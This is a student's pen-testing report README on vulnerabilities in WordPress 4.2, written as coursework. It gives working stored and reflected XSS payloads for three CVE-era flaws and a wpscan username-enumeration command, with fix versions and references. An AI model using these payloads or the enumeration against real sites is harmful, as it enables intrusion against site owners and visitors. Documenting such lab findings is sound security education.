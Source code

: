 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: Authenticated Stored Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version:  4.2.3
- [ ] GIF Walkthrough: <img src=XSS1.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ```<a href="</a><a title=" onmouseover=alert('test')  ">link</a>```
- [ ] Affected source code:
  - [Link 1](https://klikki.fi/adv/wordpress3.html)
  
### 2. (Required) Vulnerability Name: Unauthenticated Genericons Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.2
- [ ] GIF Walkthrough: <img src=XSS2.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: 
    ```http://www.example.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(1)>``` 
- [ ] Affected source code:
  - [Link 1](https://wpscan.com/vulnerability/21169b6d-61dd-4abc-b77b-167ff5f122ac)

### 3. (Required) Vulnerability Name: Authenticated Shortcode Tags Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.4
- [ ] GIF Walkthrough: <img src=XSS3.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ```XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>```
- [ ] Affected source code:
  - [Link 1](https://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)

### 4. (Optional) Vulnerability Name: Enumerate Usernames

- [ ] Summary: 
  - Vulnerability types: Enumerate Usernames
  - Tested in version: 4.2 
  - Fixed in version: 
- [ ] GIF Walkthrough: <img enumerate.gif />
- [ ] Steps to recreate: 
      ```wpscan --url http://wpdistillery.vm/ --enumerate u```
- [ ] Affected source code:
  - [Link 1](https://www.wpwhitesecurity.com/enumerate-wordpress-users-wpscan-security-scanner/)

### 5. (Optional) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2022] [Xujuan Chen]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
